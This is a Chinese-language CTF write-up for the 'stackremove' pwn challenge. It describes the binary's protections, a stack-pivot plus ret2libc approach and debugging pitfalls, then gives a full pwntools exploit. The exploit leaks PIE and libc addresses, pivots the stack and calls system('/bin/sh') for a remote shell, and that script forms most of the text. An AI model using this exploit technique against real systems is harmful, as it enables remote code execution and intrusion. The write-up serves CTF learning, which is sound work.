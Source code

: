 # stackremove

## 文件分析

下载`stackremove`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 逆向

栈上空间很大，但是溢出rbp的空间很小，因此考虑栈迁移后ret2libc  
第一步先找到栈上一个有程序偏移的地址，利用`printf(..., buf + offset)`输入输入偏移后算出pieBase，
然后读取buf地址，方便栈迁移

具体过程讲解可以看newstar2023中的`stack_migration`Writeup

## 踩过的坑

1. `scanf`中的函数会执行`movaps ..., xmm0`，也会检查rsp！下次见到这个指令就要多加一个ret
2. 本地调试找的main函数获取pieBase，结果一连接，崩了，一检查发现pieBase不对，在栈上找了一个其他函数

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote(???, 10043)
elf = ELF('stackremove')

# payload 1: get pieBase
sh.sendline(b'96') # locate __libc_csu_initAddr
sh.recvuntil(b'kie!') # skip
libcCsuAddr = u64(sh.recvline()[:6] + b'\0\0')

pieBase = libcCsuAddr - elf.symbols['__libc_csu_init']
putsPlt = pieBase + elf.plt['puts']
putsGot = pieBase + elf.got['puts']
popRdiAddr = pieBase + 0x953
leaveRetAddr = pieBase + 0x8ea
retAddr = pieBase + 0x8eb
mainAddr = pieBase + elf.symbols['main']

# print(hex(pieBase)) # check
sh.recvuntil(b':\n') # skip
space = int(sh.recvuntil(b'sh')[:14], 16)

# payload 2: migrate stack for the first time
sh.sendline(p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(retAddr) + p64(mainAddr) + b'0'*0x38 + p64(space - 8) + p64(leaveRetAddr)) # scanf check rsp

sh.recvuntil(b'ot!\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
systemAddr = libcBase + libc.dump('system')
shstrAddr = libcBase + libc.dump('str_bin_sh')

sh.sendline(b'0') # no need this time
sh.recvuntil(b':\n') # skip

# payload 3: run system
space = int(sh.recvline()[:14], 16)
sh.sendline(p64(popRdiAddr) + p64(shstrAddr) + p64(systemAddr) + b'0'*0x48 + p64(space - 8) + p64(leaveRetAddr))

sh.interactive()
```

Done.
